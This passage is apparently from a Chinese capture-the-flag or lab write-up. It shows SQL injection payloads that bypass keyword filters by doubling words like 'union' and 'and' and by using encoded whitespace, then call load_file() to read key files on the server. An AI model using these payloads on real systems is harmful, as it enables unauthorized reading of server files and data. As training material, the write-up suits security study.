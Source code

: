 load_file 读取文件

```sql
'
id=-1')uunionnion/**/select/**/1,2,3,load_file('/var/www/html/key')%23
```

![image.png](https://img.ghostliner.top/ldixXq.png)

测试其他绕过方法

```sql
'
id=-1')%0buunionnion%0a%0c%0dselect%091,2,3,load_file('/var/www/html/key')%23
```

经测试，`%09` `%0a` `%0b` `%0c` `%0d`﻿ 都可行。

## 2. SQL 注入（二）

![image.png](https://img.ghostliner.top/keH0my.png)

```sql
'
id=1%') and 1=1--+
```

发现 and 被过滤

![image.png](https://img.ghostliner.top/RRBDAx.png)

使用双写绕过成功

```sql
'
id=1%') aandnd 1=-1--+
'
id=1%') aandnd 1=1--+
```

确定列数为 7 列

```sql
'
id=-1%') uunionnion select 1,2,3,4,5,6,7--+
```

确定显示位置

![image.png](https://img.ghostliner.top/tQPT9H.png)

获取 key

```sql
'
id=-1%') uunionnion select 1,2,3,load_file('/tmp/360/key'),5,6,7--+
```

![image.png](https://img.ghostliner.top/M4yka9.png)
